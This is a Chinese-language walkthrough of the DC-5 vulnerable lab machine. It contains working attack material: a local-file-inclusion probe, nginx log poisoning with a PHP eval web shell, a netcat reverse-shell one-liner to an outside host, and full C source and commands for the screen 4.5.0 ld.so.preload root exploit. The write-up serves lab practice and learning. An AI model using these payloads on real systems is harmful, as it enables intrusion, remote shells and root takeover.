 ```yaml
---
layout: post
title: DC-5
subtitle: DC-5
date: 2025-07-14 09:42
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```


扫描IP，发现主机 `192.168.163.131`

![image.png](https://img.ghostliner.top/5EIqko.png)

nmap 扫描端口

![image.png](https://img.ghostliner.top/3eEhul.png)

扫描目录

```shell
dirsearch -u http://192.168.163.131
```

![image.png](https://img.ghostliner.top/NKfI1N.png)

访问 `thankyou.php` 发现页面每次访问年份有变化，猜测有文件包含

![image.png](https://img.ghostliner.top/AkVtmi.png)

wfuzz测试

```shell
wfuzz -w /usr/share/wordlists/wfuzz/general/common.txt -u http://192.168.163.131/thankyou.php?FUZZ=index.php --hw 66
```

![image.png](https://img.ghostliner.top/uJqh3W.png)

查看passwd文件: http://192.168.163.131/thankyou.php?file=file:///etc/passwd
![image.png](https://img.ghostliner.top/kW0SGs.png)

查看日志文件: http://192.168.163.131/thankyou.php?file=file:///var/log/nginx/access.log

日志注入
```
/thankyou.php?file=file://<?php echo qazqazqaz;eval($_REQUEST["cmd"])?>
# or
/thankyou.php?file=file://<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 5555 >/tmp/f')?>
```

蚁剑连接成功
![image.png](https://img.ghostliner.top/hMgCKv.png)

反弹shell成功，find判断是否可以提权，发现 `screen-4.5.0`
![image.png](https://img.ghostliner.top/pgAJ54.png)

搜索相关漏洞，使用 `41154.sh` 进行提权

![image.png](https://img.ghostliner.top/KwqlkT.png)

在目标机上直接执行脚本失败，在kali上编译失败。
![image.png](https://img.ghostliner.top/IPVQN9.png)

在centos7上先编译再在目标机上执行，成功提权。

**过程如下：**

安装gcc

```shell
# 1.备份
mv /etc/yum.repos.d/CentOS-Base.repo /etc/yum.repos.d/CentOS-Base.repo.backup
# 2.下载想要的源
wget -O /etc/yum.repos.d/CentOS-Base.repo http://mirrors.aliyun.com/repo/Centos-7.repo
# 3.清除旧缓存数据，建立新的缓存
yum clean all
yum makecache
# 4.安装gcc
yum install -y gcc
```

创建两个文件

```shell
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
```

```shell
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
```

编译文件

```shell
gcc -o /tmp/rootshell /tmp/rootshell.c
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
rm -f /tmp/rootshell.c
```

将文件传送到目标机

```shell
# dc-5
cd /tmp
nc -lvp 4545 > libhax.so
# centos
nc 192.168.163.131 4545 <libhax.so
# dc-5
nc -lvp 4545 > rootshell
# centos
nc 192.168.163.131 4545 <rootshell
```

最后在目标机上执行

```shell
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

查看 `/root/thisistheflag.txt`

![image.png](https://img.ghostliner.top/EkFC3Q.png)

